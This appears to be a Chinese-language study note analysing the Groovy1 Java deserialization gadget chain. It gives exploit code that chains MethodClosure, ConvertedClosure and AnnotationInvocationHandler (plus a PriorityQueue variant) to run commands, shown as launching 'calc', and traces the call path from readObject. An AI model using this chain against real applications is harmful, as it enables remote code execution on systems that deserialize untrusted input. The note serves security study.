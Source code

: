 # Groovy1

Groovy 是一种基于 JVM 的开发语言，具有类似于 Python，Ruby，Perl 和 Smalltalk 的功能。Groovy 既可以用作 Java 平台的编程语言，也可以用作脚本语言。groovy 编译之后生成 .class 文件，与 Java 编译生成的无异，因此可以在 JVM 上运行。

## exp

```java
public static void main(String[] args) throws Exception {

//封装我们需要执行的对象
MethodClosure    methodClosure = new MethodClosure("calc", "execute");
ConvertedClosure closure       = new ConvertedClosure(methodClosure, "entrySet");

Class<?>       c           = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor<?> constructor = c.getDeclaredConstructors()[0];
constructor.setAccessible(true);

// 创建 ConvertedClosure 的动态代理类实例
Map handler = (Map) Proxy.newProxyInstance(ConvertedClosure.class.getClassLoader(),
new Class[]{Map.class}, closure);

// 使用动态代理初始化 AnnotationInvocationHandler
InvocationHandler invocationHandler = (InvocationHandler) constructor.newInstance(Target.class, handler);
}
```

使用prioritequeye

```java
final ConvertedClosure closure = new ConvertedClosure(new MethodClosure(Runtime.getRuntime(), "exec"), "compare");
Comparator proxy = (Comparator)Gadgets.createProxy(closure, Comparator.class);
PriorityQueue<Object> queue = new PriorityQueue<Object>(2, proxy);
queue.add(new String[]{"calc"});
queue.add("calc");
```



## 分析

### MethodClosure

![image-20220513100940785](https://gitee.com/ddem0/typora-pic/raw/master/images/image-20220513100940785.png)

初始化的有两个参数一个是对象，一个是对象的方法名称.我们可以大概理解成为===> 一个类的方法的存储 ==》 Method.他的docall方法就是invoke.

![image-20220513101036201](https://gitee.com/ddem0/typora-pic/raw/master/images/image-20220513101036201.png)

所以我们这样写代码就可以执行

```java
MethodClosure exec = new MethodClosure(Runtime.getRuntime(), "exec");
Method m  = MethodClosure.class.getDeclaredMethod("doCall", Object.class);
m.setAccessible(true);
m.invoke(exec, "calc");

MethodClosure exec = new MethodClosure(Runtime.getRuntime(), "exec");
exec.call("calc");
```

所以很清楚这里就是触发的位置。

### String.execute() 方法

在`Groovy`中可以使用以下的方式来执行sh命令

```
"ls".execute();
```

在java中的写法就是

```java
MethodClosure methodClosure = new MethodClosure("calc", "execute");
methodClosure.call();
```

### ConvertedClosure

这个类是一个通用适配器，用来将闭包和java的接口对应。

ConvertedClosure 实现了 ConversionHandler 类，而 ConversionHandler 又实现了 InvocationHandler。所以说 ConvertedClosure 本身就是一个动态代理类。

![image-20220513102639014](https://gitee.com/ddem0/typora-pic/raw/master/images/image-20220513102639014.png)

可以看到整个类除了一些基本方法，会直接调用，其他的都是invokeCustom来实现的。`ConvertedClosure的method`==>和代理调用时的方法一致。

![image-20220513102713229](https://gitee.com/ddem0/typora-pic/raw/master/images/image-20220513102713229.png)

像什么就不用我多说了把。看到这里就明白这条链的触发逻辑了。后面自然是使用 AnnotationInvocationHandler 将 ConvertedClosure 代理成 Map 类。这样在反序列化。

### AnnotationInvocationHandler

![image-20220513103129245](https://gitee.com/ddem0/typora-pic/raw/master/images/image-20220513103129245.png)

主要是给大家看一下他的初始化。

## 分析

![image-20220513103744938](https://gitee.com/ddem0/typora-pic/raw/master/images/image-20220513103744938.png)

AnnotationInvocationHandler#readobject => `handler(用closure代理了map接口)#entrySet` ==> `ConversionHandler#invoke`=>`ConvertedClosure#invokeCustom`==>call方法。

```java
Map handler = (Map) Proxy.newProxyInstance(ConvertedClosure.class.getClassLoader(),
            new Class[]{Map.class}, closure);
```

所以这条利用链子真的牛皮！！！！。

## upupup!

这里按道理来说只要找一个readobject中会调用handler方法的就可以了。

就是说 一个类，他有一个属性(handler)，然后整个属性被handler代理了，并且在readobject中有一个对这个属性的方法的调用，然后他就可以执行命令了。想挖一下((())).